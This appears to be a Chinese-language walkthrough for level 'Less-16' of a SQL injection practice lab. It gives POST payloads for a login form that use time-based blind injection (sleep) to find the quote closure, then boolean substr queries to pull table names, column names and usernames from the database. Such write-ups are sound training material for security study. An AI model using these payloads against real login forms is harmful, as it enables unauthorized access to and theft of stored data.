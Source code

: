 ```yaml
---
title: Less - 16
date: 2023-03-15T11:26:27Z
lastmod: 2023-03-15T12:21:25Z
---
```


# Less - 16

---

# 通关教程

---

## 1、判断闭合

---

```html
uname=admin'&passwd=admin&submit=Submit #没有错误回显
uname=admin"&passwd=admin&submit=Submit #没有错误回显
```

​![image](assets/image-20230315121235-4i97dam.png)​

​![image](assets/image-20230315121258-s35ixs6.png)​

没有错误回显，我们只能一个一个去猜闭合方式，利用时间盲注去判断注入点

```html
uname=admin' and sleep(5)#&passwd=admin&submit=Submit #快速反应
uname=admin" and sleep(5)#&passwd=admin&submit=Submit #快速反应
uname=admin") and sleep(5)#&passwd=admin&submit=Submit #页面休眠5秒
```

​![image](assets/image-20230315121425-w5vkpnt.png)​

判断这里闭合方式为")，并且为字符型注入

---

## 2、查看当前数据库长度

---

```html
uname=ad") or length(database())=8#&passwd=admin&submit=Submit
```

​![image](assets/image-20230315121628-nomtplu.png)​

---

## 3、判断当前数据库的第一个字母

---

```html
uname=ad") or substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'#&passwd=admin&submit=Submit
```

​![image](assets/image-20230315121829-4ed2pmi.png)​

---

## 4、判断users表下的第一个字段的第一个字母

---

```html
uname=ad") or substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='a'#&passwd=admin&submit=Submit
```

​![image](assets/image-20230315121924-7hm4rok.png)​

---

## 5、判断username字段的第一个值的第一个字母

---

```html
uname=ad") or substr((select username from security.users limit 0,1),1,1)='d'#&passwd=admin&submit=Submit
```

​![image](assets/image-20230315122115-xu963f7.png)​

‍
